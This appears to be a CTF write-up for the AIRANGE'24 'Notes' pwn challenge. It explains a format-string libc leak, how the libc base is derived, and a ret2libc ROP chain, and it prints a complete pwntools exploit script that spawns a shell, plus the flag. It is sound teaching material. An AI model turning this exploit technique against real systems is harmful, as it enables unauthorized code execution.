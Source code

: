 ```yaml
---
title: AIRANGE'24 - Pwn - Notes
date: '2024-05-10'
tags: ['ctf', 'pwn', 'airange', 'fmt']
draft: false
summary: Given a libc leak, perform a ret2libc attack.
---
```


## Challenge Description

![Screenshot](/static/writeups/airange24/pwn/notes1.png)

## Solution

Files provided to us:

```
Dockerfile
ld-2.35.so
libc.so.6
notes
notes.cpp
```

Checking binary’s mitigations:

![Screenshot](/static/writeups/airange24/pwn/notes2.png)

First thing first, lets see what is the vulnerable part. You can see in the following screenshot that we have FSB:

![Screenshot](/static/writeups/airange24/pwn/notes3.png)

As **PIE** and **NX** is enabled. We have to perform `ret2libc`. Now, open the binary in gdb and let’s see if we could leak an address from libc address range:

```
%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
```

![Screenshot](/static/writeups/airange24/pwn/notes4.png)

Press `ctrl+C` and run `vmmap` to see range of libc; which in our case is `0x7ffff7b40000` - `0x7ffff7d5a000`:

![Screenshot](/static/writeups/airange24/pwn/notes5.png)

And if you see carefully, a leaked address (`0x7ffff7b69d90`) from this range is present on index `27`:

![Screenshot](/static/writeups/airange24/pwn/notes6.png)

As in this challenge, the **PIE** (Position Independent Executable) and **NX** (No eXecute) are enabled, meaning that each time a binary is executed, it generates a seemingly random address for every instruction in binary code. However, upon closer inspection, these addresses are not truly random.

This lack of randomness stems from a concept known as an offset, which represents the distance between any two functions or the distance from the base of the binary to a specific function. This offset remains consistent. For instance, consider two individuals racing, and the difference between them is consistently 2 meters. So, even though they are constantly moving, if the distance between them remains the same and we know the address of one person, we can calculate the address of the other person.

So, if we have a leaked libc function address and somehow we can calculate its offset from the libc base, we can determine the libc base address and call any function that we desire.

> Base address + Offset = Function address

With knowledge of one address, it becomes feasible to calculate the offset to another function. Consequently, each time the binary is executed, this offset is randomly generated and added to the base address.

In our case, the leaked address was `0x7ffff7b69d90` and base address is `0x7ffff7b40000`. Let’s calculate the offset:

```bash
pwndbg> p/x 0x7ffff7b69d90 - 0x7ffff7b40000
```

![Screenshot](/static/writeups/airange24/pwn/notes7.png)

As now we know offset, we can calculate libc base address at runtime essentially bypassing **PIE** protection. 😉

```bash:how-it-will-be-calculated
libc.address = <%27$p> - <0x29d90>
```

Finding offset:

![Screenshot](/static/writeups/airange24/pwn/notes8.png)

![Screenshot](/static/writeups/airange24/pwn/notes9.png)

Our offset is 268+8 = `276`. Now let's find `ret` and `pop rdi`.

But why we need them?

**POP_RDI:** gadget is used to pop the next value from the stack into the rdi register. In this context, rdi is typically used to pass the first argument to a function. Since the script (that we want to create) aims to call system("/bin/sh"), it needs to pass the address of the string "/bin/sh" as the first argument to `system()`. Therefore, POP_RDI will be used to load the address of "/bin/sh" into rdi.

**RET:** gadget is used to return control flow to the address stored on the stack. In the ROP chain, after loading the address of "/bin/sh" into rdi using POP_RDI, the next step is to return to some address. In our case it will be used to maintain alignment or adjust the stack before calling `system()`. After RET, the `system()` function from libc will be called, which expects control to be transferred to its entry point with the appropriate arguments in registers.

In short, **POP_RDI** is used to load the address of "/bin/sh" into rdi, and **RET** is used for alignment or adjusting the stack before calling `system()` with the appropriate arguments.

So, to find **POP_RDI** and **RET**, I will use rop gadget (`rop.find_gadget()`).

Final payload that I created:

```python:payload.py
#!/usr/bin/env python3
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

encode = lambda e: e if type(e) == bytes else str(e).encode()       # Lambda function to encode strings to bytes
hexleak = lambda l: int(l[:-1] if l[-1] == '\n' else l, 16)         # Lambda function to convert hex string to integer

exe = "./notes"
elf = context.binary = ELF(exe)
libc = elf.libc

# Set up the connection (remote or local)
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
# If GDB flag is enabled, attach to the process for debugging
if args.GDB: gdb.attach(io, "b *main")

rop = ROP(libc)

io.sendlineafter(b"$ ", b"1")
io.sendlineafter(b"note: ", b"|%27$p|")
io.sendlineafter(b"$ ", b"2")
io.sendlineafter(b": ", b"0")

# Receiving leaked address and parsing it
leak = int(io.recvline().split(b"|")[1], 16)
print("leak @ %#x" % leak)

# Calculating the libc base address using the leaked address
libc.address = leak - 0x29d90
print("base @ %#x" % libc.address)

# Finding the gadgets needed for ROP chain
POP_RDI = libc.address + rop.find_gadget(['pop rdi', 'ret'])[0]
RET = libc.address + rop.find_gadget(['ret'])[0]

payload = flat(
    cyclic(276),                        # Filling buffer with cyclic pattern (overflow to RIP)
    POP_RDI,                            # Setting up RDI register for system call
    next(libc.search(b"/bin/sh\x00")),  # Address of "/bin/sh" string in libc
    RET,                                # Return address
    libc.sym.system                     # Calling system() function
)

io.sendline(b"0")
io.recvuntil(b'$ ')
io.sendline(b"1")

io.sendline(payload)
io.interactive()
```

Running it against remote:

![Screenshot](/static/writeups/airange24/pwn/notes10.png)

### Flag:

```
AUCSS{1_th0ught_cpp_w4s_s3cur3}
```
